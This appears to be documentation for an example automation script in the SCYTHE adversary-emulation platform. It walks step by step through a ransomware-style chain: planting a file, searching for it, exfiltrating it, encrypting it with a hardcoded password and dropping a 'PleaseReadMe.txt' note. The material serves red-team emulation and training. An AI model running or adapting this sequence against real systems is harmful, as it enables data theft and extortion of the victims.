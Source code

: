 # Example Script 2

This Compound Action is the Example Script 2 from Appendix B of the SCYTHE User Guide. It demonstrates use of advanced automation features, including using the output of prior commands to inform logic of future commands. Variables and pattern matching are also demonstrated.

Please refer to section 2.2 - Automate Campaign Actions in the User Guide for documentation on what functions are support on strings in SCYTHE's automation language.

## Steps

1. `encryption_key = h3ll0w0rld`
    * Set the variable `encryption_key` to equal "h3ll0w0rld". This variable is used later as the passphrase for encrypting a file with the `crypt` module. 
    * This is an example of how to set a variable within SCYTHE's automation language. To set variables, click "Show more..." beneath "Custom Action". You will see an `Assign` action. Click this and a menu will appear that allows you to set a variable name and value. The value can then be reused by referring to it via the Step # where the value was assigned.
    * NOTE: Variables are not currently accessed by their name, but by referencing the output of the step in which they were declared.
2. `loader --load crypt`
    * Load the `crypt` module. This module can be used to encrypt files using the "Microsoft Base Cryptographic Provider" API to perform symmetric AES 256-bit encryption.
3. `loader --load downloader`
    * Load the `downloader` module, which is will be used to place a file from the VFS onto the target's filesystem.
4. `loader --load file`
    * Load the `file` module, which can be used to create random files with random data.
5. `loader --load search`
    * Load the `search` module, which is used to search for files in a directory structure.
6. `loader --load uploader`
    * Load the `uploader` module, which is used to exfiltrate files from the target system.
7. `delay --time 10`
    * Add a manual delay of 10 seconds.
8. `file --create --path "%USERPROFILE%\Documents\ssn_private.xls" --size 10MB --random`
    * Create a file with 10MB of random data in the user's Documents folder. Note that we are able to use an environment variable `USERPROFILE` in the file path.
9. `search --directory "%USERPROFILE%" --filename "ssn_private.xls" --recurse`
    * Search the User's profile recursively for a file (the one we created in step 8).
10. `target_path = $(9).response["filepaths"][0]`
    * Assign a value to a variable.
    * This is the first step that makes use of SCYTHE's automation language. Let's break it down:
        * `$(9)` - This references Step 9.
        * `.response` - You may reference either a step's request (input) or response (output).
        * `response["filepaths"]` The `search` module returns a property in it's response that is an array of strings called `filepaths`. You may view the schema of the module by hovering over the `i` button next to the module name in the "Custom Action" dialog. Additionally, while you are typing the command of a Custom Action you may press the `CTRL + Space` keyboard combination to see tooltips of the different values or functions of a variable that you may use.
        * `response["filepaths"][0]` The last part of this is an index into the `filepaths` list. Since `filepaths` is, on the backend, a Python list containing strings, its elements may be accessed via Python's syntax. In this case we are accessing it's 0th element.
    * Ultimately, what this Step is doing is getting the first file path found by the `search` command in step 9. This is also the file that we created in step 8.
11. `uploader --remotepath $(10).response`
    * Use the `uploader` module to exfiltrate the file that we found.
    * We use `$(10).response` to obtain the string that we assigned to `target_path` in step 10. Because the variable name is irrelevant, we get the results of that Assign action by referencing the response (the output) of the step in which it was declared.
11. `crypt --target $(10).response --encrypt --password $(1).response`
    * Encrypt the file on the target's machine with the password that we decided upon in step 1.
    * Here we references variables in two steps. The file path that we obtained in step 10, and the password that we decided upon in step 1.
12. `downloader --src "VFS:/shared/threats/ExampleScript2/PleaseReadMe.txt" --dest $(10).response.extract(".*\\\\")[0].suffix("PleaseReadMe.txt")`
    * This is the most complex command in the example. It makes use of special SCYTHE Automation Language functions that are described in the table in Section 2.2 of the SCYTHE User Guide.
    * Here we place a file from the VFS into the same directory in which we found the `.xls` file that we created earlier. Let's unpack each part:
        * `downloader --src "VFS:/shared/threats/ExampleScript2/PleaseReadMe.txt"` - Use the `downloader` module to place a file from the VFS onto the target's filesystem. This assumes that there is a file in the VFS at the path specified.
        * `$(10).response` - Get the file path from step 10.
        * `$(10).response.extract(".*\\\\")` - Extract a substring from that filepath using a the regular expression (regex) pattern "`.*\\\\`". This uses Python's `re` library. Please note that the backslashes (`\`) are escaped.
        * `extract(".*\\\\")[0]` - The `extract` function produces an array (a Python `list`) of strings. In this case there is only one element in the array (the 0th element). So we access it using Python's indexing syntax. The result will be the path of the directory in which the `.xls` file resides.
        * `.suffix("PleaseReadMe.txt")` - The `suffix` function in SCYTHE's automation language appends a string onto another string. In this case, we are appending "PleaseReadMe.txt" onto the path of the directory.
        * After all portions are evaluated, the result is the directory path + "PleaseReadMe.txt" as the final path of where the text file should be placed. The file will be copied from the VFS and written to that path.

